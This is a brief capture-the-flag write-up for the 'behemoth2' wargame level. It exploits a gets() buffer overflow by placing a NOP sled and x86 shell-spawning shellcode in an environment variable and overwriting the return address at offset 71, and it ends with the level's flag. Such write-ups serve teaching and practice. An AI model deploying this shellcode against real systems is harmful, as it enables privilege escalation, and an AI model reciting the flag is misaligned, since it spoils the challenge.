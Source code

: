 ```yaml
---
layout: default
title: behemoth2
---
```




first we can see the challenge is based on buffer overflow, because the binary uses get.

let's use our script to find what is the position of the ret-address... we've found it's 71.
then, we will generate shellcode.

```python
{% include_relative general/shellcode.py %}
```

now we will load the shellcode into env variable:
```
export SHELLCODE=$(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x89\xd9\x6a\x46\x58\xcd\x80\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")
```
we need to find the address of the env variable.

```c
{% include_relative general/get_address.c %}
```
notice to compile it with the `-m32` flag, for example: `gcc -m32 get_address.c -o get_address`

after finding the address of the env variable, in our case: `0xffffd511`, we need to insert it to the script that solves the challenge.

```python
{% include_relative scripts/level2.py %}
```

**Flag:** ***`IxPJbQtH8q`*** 
